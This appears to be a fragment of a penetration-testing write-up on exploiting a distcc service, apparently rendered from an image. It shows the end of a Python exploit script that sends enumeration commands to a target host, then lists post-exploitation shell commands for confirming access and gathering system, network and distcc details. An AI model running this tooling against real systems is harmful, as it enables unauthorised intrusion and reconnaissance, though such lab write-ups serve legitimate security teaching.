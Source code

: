 ```python
        
        for cmd in commands:
            print(f"[+] Running: {cmd}")
            exploit.send_command(f"{cmd} > /tmp/enum_{cmd.replace(' ', '_')}.txt")
            time.sleep(1)
        
        print("[+] Results saved to /tmp/enum_*.txt on target")
        
    else:
        print("[-] Invalid action or missing parameters")

if __name__ == "__main__":
    main()
```

---

## ✅ Post-Exploitation Activities

### Initial System Assessment
```bash
# Verify shell access
id
whoami
groups

# System information
uname -a
hostname
cat /etc/*release*

# Network configuration
ifconfig -a
ip addr show
netstat -rn
```

### distcc Service Analysis
```bash
# Check distcc configuration
ps aux | grep distcc
ls -la /usr/bin/distcc*
ls -la /etc/distcc/

# distcc environment variables
env | grep -i distcc

# Check distcc hosts file
cat /etc/distcc/hosts 2>/dev/null
cat ~/.distcc/hosts 2>/dev/null

# distcc logs
tail -50 /var/log/distcc.log 2>/dev/null
journalctl -u distcc 2>/dev/null
```
